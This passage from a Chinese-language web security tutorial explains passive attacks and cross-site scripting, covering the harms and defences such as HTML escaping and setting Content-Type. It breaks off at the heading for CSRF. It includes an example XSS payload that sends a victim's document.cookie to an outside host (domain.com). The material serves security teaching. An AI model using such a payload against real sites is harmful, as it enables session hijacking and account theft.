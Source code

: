 ### 7.1.2 被动攻击

- 设下圈套，让用户发送有攻击代码的 `HTTP` 请求，用户会泄露 `Cookie` 等个人信息，具有代表性的有跨站脚本攻击和跨站请求伪造。

## 7.2 跨站脚本攻击

### 7.2.1 概念

> 跨站脚本攻击（`Cross-Site Scripting, XSS`），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 Cookie 等各种内容。

例如有一个论坛网站，攻击者可以在上面发表以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

> 另一个用户浏览了含有这个内容的页面将会跳往 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 7.2.2 危害

- 伪造虚假的输入表单骗取个人信息
- 窃取用户的 `Cookie` 值
- 显示伪造的文章或者图片

### 7.2.3 防范手段

**过滤特殊字符**

许多语言都提供了对 HTML 的过滤：

- PHP 的 `htmlentities()` 或是 `htmlspecialchars()`。
- Python 的 `cgi.escape()`。
- Java 的 `xssprotect` (Open Source Library)。
- Node.js 的 `node-validator`。

**指定 HTTP 的 Content-Type**

通过这种方式，可以避免内容被当成 HTML 解析，比如 PHP 语言可以使用以下代码：

```
<?php
   header('Content-Type: text/javascript; charset=utf-8');
?>
```

## 7.3 跨站点请求伪造

### 7.3.1 概念
